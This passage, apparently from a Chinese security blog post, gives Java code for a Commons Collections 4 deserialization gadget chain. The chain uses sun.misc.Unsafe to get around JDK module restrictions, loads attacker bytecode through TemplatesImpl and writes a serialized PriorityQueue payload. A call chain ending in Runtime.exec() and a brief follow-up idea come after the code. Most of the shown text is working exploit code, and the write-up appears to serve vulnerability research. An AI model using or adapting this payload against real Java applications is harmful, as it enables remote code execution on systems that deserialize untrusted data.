        ClassPool pool = ClassPool.getDefault();
        ClassLoader appClassLoader = ClassLoader.getSystemClassLoader();
        pool.insertClassPath(new javassist.LoaderClassPath(appClassLoader));
        CtClass clazz = pool.get("eval");
        byte[] code = clazz.toBytecode();
        CtClass clazz2 = pool.get(Evil.class.getName());//这里随便一个类就行，code2凑数用的
        byte[] code2 = clazz2.toBytecode();
        System.out.println(Base64.getEncoder().encodeToString(code));

        Class<?> aClass = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        patchModule(CC4_17.class,aClass);
        Object templates =  aClass.getDeclaredConstructor().newInstance();
        setFiled(templates,"_name","111");
        setFiled(templates,"_bytecodes",new byte[][]{code,code2});
        setFiled(templates,"_transletIndex",0);

        Class<?> TrAXFilter = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter");
        InstantiateTransformer invokerTransformer5 = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});
        ConstantTransformer constantTransformer2 = new ConstantTransformer(TrAXFilter);

        InvokerTransformer invokerTransformer4 = new InvokerTransformer("getAndSetObject",new Class[]{Object.class,long.class,Object.class}, new Object[]{Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter"),60,"javax.xml"});
        InvokerTransformer invokerTransformer3 = new InvokerTransformer("get",new Class[]{Object.class}, new Object[]{null});
        InvokerTransformer invokerTransformer2 = new InvokerTransformer("setAccessible",new Class[]{boolean.class}, new Object[]{true});
        TransformerClosure transformerClosure = new TransformerClosure(invokerTransformer2);
        ClosureTransformer ClosureTransformer = new ClosureTransformer(transformerClosure);
        InvokerTransformer invokerTransformer = new InvokerTransformer("getDeclaredField",new Class[]{String.class}, new Object[]{"theUnsafe"});
        ConstantTransformer constantTransformer = new ConstantTransformer(Class.forName("sun.misc.Unsafe"));
        Transformer[] transformers=new Transformer[]{constantTransformer,invokerTransformer,ClosureTransformer,invokerTransformer3,invokerTransformer4,constantTransformer2,invokerTransformer5};
        Transformer keyTransformer = new ChainedTransformer(transformers);
//        patchModule(invokerTransformer.getClass(),aClass);
        System.out.println(TrAXFilter.getModule().getName());
        System.out.println(invokerTransformer.getClass().getModule().getName());

        TransformingComparator transformingComparator = new TransformingComparator(keyTransformer);
        PriorityQueue priorityQueue = new PriorityQueue(2,transformingComparator);
        patchModule(CC4_17.class,priorityQueue.getClass());
        Field size = priorityQueue.getClass().getDeclaredField("size");
        size.setAccessible(true);
        size.setInt(priorityQueue, 2);


        FileOutputStream fos = new FileOutputStream("bin");
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(priorityQueue);
        oos.close();

        // 从文件中反序列化对象
        FileInputStream fis = new FileInputStream("bin");
        ObjectInputStream ois = new ObjectInputStream(fis);
        ois.readObject();
        ois.close();
    }

    private static void patchModule(Class clazz,Class goalclass){
        try {
            Class UnsafeClass = Class.forName("sun.misc.Unsafe");
            Field unsafeField = UnsafeClass.getDeclaredField("theUnsafe");
            unsafeField.setAccessible(true);
            Unsafe unsafe = (Unsafe)unsafeField.get(null);
            Object ObjectModule = Class.class.getMethod("getModule").invoke(goalclass);
            Class currentClass = clazz;
            long addr=unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            unsafe.getAndSetObject(currentClass,addr,ObjectModule);
        } catch (Exception e) {
        }
    }

    public static void setFiled(Object templates, String name, Object values) throws IllegalAccessException, NoSuchFieldException {
        Field declaredField = templates.getClass().getDeclaredField(name);
        declaredField.setAccessible(true);
        declaredField.set(templates,values);
    }
}
```

### 调用链

```
PriorityQueue.readObject()
 PriorityQueue.heapify()
 PriorityQueue.siftDown()
 PriorityQueue.siftDownUsingComparator()
   TransformingComparator.compare()
        ChainedTransformer.transform()
            ConstantTransformer.transform()
            InvokerTransformer.transform()     ---> 这里开始构造Unsafe对象，得到Filed对象
                ClosureTransformer.transform() ---> 这里形成一个岔路，去构造setAccessible
                TransformerClosure.transform()
                InvokerTransformer.transform() ---> 这里执行setAccessible，然后又回到主线
            InvokerTransformer.transform()     ---> 执行get()，得到Unsafe对象
            InvokerTransformer.transform()	   ---> 执行getAndSetObject，修改pn
            ConstantTransformer.transform()    --->这里回到正常CC4链子
            InstantiateTransformer.transform()
            newInstance()
                TrAXFilter#TrAXFilter()
                TemplatesImpl.newTransformer()
                         TemplatesImpl.getTransletInstance()
                         TemplatesImpl.defineTransletClasses
                         newInstance()
                            Runtime.exec()
```

# 0x05 遗漏

写文章的时候看代码越看越感觉漏掉了什么，还记得我前面说到的一个利用尝试`"null"`，这个地方我分析的时候，把memberClass想成null了，其实不是，是`memberClass.getModule()`为`null`

那么有点感觉了么少年？我tm直接把这两个的`Moudle`都用Unsafe改成`null`呗，经过俺的改造，Unsafe对象调用两次完全不是问题啊

感觉是可行的，但是我懒，俺要去吃饭了，都9点了才写完！！


